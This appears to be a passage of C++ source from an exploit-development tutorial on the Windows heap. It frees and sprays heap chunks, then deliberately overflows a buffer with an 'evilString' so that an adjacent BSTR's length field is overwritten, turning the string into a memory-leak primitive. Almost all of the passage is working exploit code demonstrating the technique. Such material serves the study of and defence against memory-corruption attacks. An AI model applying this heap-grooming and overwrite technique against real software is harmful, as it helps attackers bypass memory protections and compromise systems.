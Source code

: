 ```cpp
        bStrings[i] = bstr;
        printf("[%d] BSTR string : 0x%08x\n", i, bstr);
    }
    system("PAUSE");
    printf("Freeing allocation at index 4: 0x%08x\n", allocations[4]);
    HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[4]);

    int objRef = (int)object;
    printf("SomeObject address for Chunk 3 : 0x%08x\n", objRef);
    vector<int> array1(40, objRef);
    vector<int> array2(40, objRef);
    vector<int> array3(40, objRef);
    vector<int> array4(40, objRef);
    vector<int> array5(40, objRef);
    vector<int> array6(40, objRef);
    vector<int> array7(40, objRef);
    vector<int> array8(40, objRef);
    vector<int> array9(40, objRef);
    vector<int> array10(40, objRef);
    printf("SomeObject array : 0x%08x\n", array1);
    printf("SomeObject array : 0x%08x\n", array2);
    printf("SomeObject array : 0x%08x\n", array3);
    printf("SomeObject array : 0x%08x\n", array4);
       
    system("PAUSE");
 
    UINT strSize = SysStringByteLen(bStrings[0]);
    printf("Original String size: %d\n", (int)strSize);
    printf("Overflowing allocation 2\n");

    char evilString[] =
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "CCCCDDDD"
        "\xff\x00\x00\x00";
    memcpy(allocations[2], evilString, sizeof(evilString));
    strSize = SysStringByteLen(bStrings[0]);
    printf("Modified String size: %d\n", (int)strSize);

    std::wstring ws(bStrings[0], strSize);
```